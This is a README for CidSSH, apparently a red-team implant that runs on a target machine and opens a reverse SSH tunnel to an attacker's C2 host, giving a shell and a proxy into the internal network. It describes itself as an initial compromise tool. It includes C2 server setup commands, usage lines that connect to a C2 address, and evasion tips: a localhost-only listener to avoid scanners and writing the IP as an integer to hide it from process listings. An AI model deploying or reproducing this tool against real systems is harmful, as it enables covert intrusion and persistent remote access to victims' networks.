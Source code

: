 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases). They are ready to roll.

If you want to compile from source keep reading below.

## Using it

Defaults: user is `anonymous`

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

## Compilation

You can find more info about compilation [here](COMPILATION.md)

## Authors
- Alberto Garcia Illera (alberto.garcia@getcruise.com)
- Francisco Oca (foca@getcruise.com)
- Bert JW Regeer (bert.regeer@getcruise.com)

